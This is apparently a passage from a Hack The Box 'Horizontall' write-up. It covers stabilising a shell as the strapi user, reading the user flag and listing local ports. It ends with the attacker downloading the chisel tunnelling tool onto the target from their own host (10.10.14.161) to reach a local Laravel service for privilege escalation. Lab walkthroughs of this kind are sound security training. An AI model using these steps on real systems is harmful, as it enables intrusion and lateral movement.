 And finally the last touches:
```bash
strapi@horizontall:~/myapi$ export TERM=xterm
strapi@horizontall:~/myapi$ export SHELL=bash
strapi@horizontall:~/myapi$ stty rows 40 columns 140
```

This way we will have the correct screen size (you can find your own with ```stty size```) and we are also able to do ^L.


Now that we have everything set we look for the **user flag**:

```bash
strapi@horizontall:/home$ ls
developer
strapi@horizontall:/home$ cd developer
strapi@horizontall:/home/developer$ ls
composer-setup.php  myproject  user.txt
strapi@horizontall:/home/developer$ cat user.txt
dfd6c9d44946c8d*****************
```

Perfect, the first part is done now let's move on.

# **```Privilege escalation```**

We have already listed the ports open publicly, but there are possibly ports open locally:
```bash
strapi@horizontall:/home/developer$ netstat -nat
Active Internet connections (servers and established)
Proto Recv-Q Send-Q Local Address           Foreign Address         State
tcp        0      0 127.0.0.1:3306          0.0.0.0:*               LISTEN
tcp        0      0 0.0.0.0:80              0.0.0.0:*               LISTEN
tcp        0      0 0.0.0.0:22              0.0.0.0:*               LISTEN
tcp        0      0 127.0.0.1:1337          0.0.0.0:*               LISTEN
tcp        0      0 127.0.0.1:8000          0.0.0.0:*               LISTEN
tcp        0    138 10.129.78.41:33632      10.10.14.161:334        ESTABLISHED
tcp6       0      0 :::80                   :::*                    LISTEN
tcp6       0      0 :::22                   :::*                    LISTEN
```

Port 8000 is opened with a web server, with curl we can take a look:
{{< image src="/img/hor-9.png" alt="Hello Friend" position="center" style="border-radius: 8px;" >}}

It's running **Laravel**, with **chisel** we will forward this port to us so we can try to exploit it:

```bash
strapi@horizontall:/tmp$ wget http://10.10.14.161/chisel
--2022-07-05 03:58:09--  http://10.10.14.161/chisel
Connecting to 10.10.14.161:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 3107968 (3.0M) [application/octet-stream]
Saving to: ‘chisel’

chisel                             100%[================================================================>]   2.96M  1.30MB/s    in 2.3s

2022-07-05 03:58:11 (1.30 MB/s) - ‘chisel’ saved [3107968/3107968]

strapi@horizontall:/tmp$ chmod +x chisel
```
